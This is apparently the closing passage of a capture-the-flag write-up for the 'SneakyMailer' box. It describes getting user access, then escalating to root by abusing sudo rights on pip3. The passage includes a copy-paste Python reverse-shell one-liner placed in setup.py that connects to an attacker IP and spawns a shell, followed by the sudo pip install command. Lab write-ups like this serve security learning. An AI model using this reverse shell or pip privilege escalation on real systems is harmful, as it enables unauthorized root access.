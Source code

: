 ```bash
HOME=$(pwd) # otherwise it will complain... a lot
python3 setup.py sdist register -r local upload -r local
```

Now, we can just ssh into the box as `low`. It was hard, but we got user!

![image-20201026003801120](/assets/sneakymailer/image-20201026003801120.png)

And would you look at the sweet `sudo -l` output?

![image-20201026004023399](/assets/sneakymailer/image-20201026004023399.png)

Basically we can install whatever package as super user. Why wouldn't we install [https://gtfobins.github.io/gtfobins/pip/#reverse-shell](https://github.com/0x00-0x00/FakePip/blob/master/setup.py)? We'll trigger a reverse shell as root with this `setup.py`. Follow the instructions (you can literally copy paste, but better without using environmental variables):

```bash
echo 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.224",int(9001)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' > ./setup.py
sudo /usr/bin/pip3 install .
```

and you'll get root on the listening netcat!

![image-20201026012851703](/assets/sneakymailer/image-20201026012851703.png)

...profit.
